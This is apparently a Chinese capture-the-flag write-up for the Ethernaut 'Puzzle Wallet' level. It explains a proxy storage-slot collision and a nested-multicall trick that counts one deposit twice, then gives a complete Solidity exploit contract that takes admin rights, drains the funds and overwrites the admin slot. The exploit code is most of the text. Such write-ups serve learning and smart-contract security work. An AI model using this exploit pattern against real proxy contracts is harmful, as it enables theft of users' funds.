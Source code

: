 ## 23-Puzzle Wallet

proxy 合约和 wallet 合约，proxy 中和 wallet 同 slot 的变量应该是一致的，所以对 proxy 中变量的修改会影响 wallet 中的使用，对 wallet 中的逻辑调用会影响 proxy 中的变量值  
multicall 连续两次调用

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface Puzzle{
    function admin() external view returns(address);
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function multicall(bytes[] calldata data) external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract Hack{
    Puzzle private puzzle;

    constructor(address _target) {
        puzzle = Puzzle(_target);

    }

    function hack() external payable{
        puzzle.proposeNewAdmin(address(this));
        puzzle.addToWhitelist(address(this));

        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSelector(puzzle.deposit.selector);

        bytes[] memory data = new bytes[](2);
        data[0] = deposit_data[0];
        data[1] = abi.encodeWithSelector(puzzle.multicall.selector, deposit_data);

        puzzle.multicall{value: msg.value}(data);

        puzzle.execute(msg.sender, 0.002 ether, "");

        puzzle.setMaxBalance(uint256(uint160(msg.sender)));

    }
}
```

## 24-MotorBike
